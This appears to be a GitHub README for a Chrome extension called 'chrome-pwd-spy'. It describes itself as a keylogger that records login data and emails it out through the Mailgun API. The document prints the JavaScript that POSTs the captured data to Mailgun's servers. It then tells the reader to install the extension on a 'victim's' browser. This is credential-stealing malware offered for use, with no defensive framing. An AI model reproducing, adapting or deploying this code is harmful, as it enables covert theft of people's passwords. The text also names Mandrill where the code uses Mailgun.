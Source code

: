 ### #сhrome-pwd-spy

Simplest keylogger, directly records login data to transactional email (mailgun right now).

##### how to use ->

*js/background.js:*

```javascript
 var body =   {
	from: 'mailgun@sandboxab04a0cb2f204bb3a60fc5c0500ea941.mailgun.org', //<--- from
        to : '', //<--- to
	subject: 'PWD',
	text: data
 };

 var xhr = new XMLHttpRequest();
 xhr.open("POST", "https://api.mailgun.net/v3/<YOUR DOMAIN THERE>/messages", true); //<--- Your mailgun domain there
 xhr.setRequestHeader ("Authorization", "<YOUR API-KEY THERE>"); //<--- Your key there
 xhr.setRequestHeader("Content-Type","application/json");
 xhr.send(JSON.stringify(body));
```

Set your mandrill credentials, then install extension on your victim's chrome browser and that's it!
